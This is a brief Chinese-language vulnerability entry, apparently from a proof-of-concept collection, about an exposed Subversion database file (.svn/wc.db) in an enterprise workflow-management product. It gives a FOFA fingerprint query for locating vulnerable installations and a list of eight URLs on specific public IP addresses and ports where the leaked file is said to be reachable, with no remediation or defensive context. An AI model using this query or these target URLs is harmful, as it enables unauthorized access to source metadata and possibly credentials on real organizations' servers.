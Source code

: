 # 时空智友企业流程化管控系统 wc.db 文件信息泄露漏洞

    ## fofa

```
body="企业流程化管控系统" && body="密码(Password):"
```

## poc

```
http://1.85.4.126:8090/.svn/wc.db
http://106.14.45.41:8088/.svn/wc.db
https://106.14.45.41:8102/.svn/wc.db
http://111.164.90.142:8501/.svn/wc.db
http://111.164.90.142:8081/.svn/wc.db
http://111.198.51.59:8088/.svn/wc.db
http://111.198.51.59:8081/.svn/wc.db
http://111.39.94.182:8081/.svn/wc.db
```
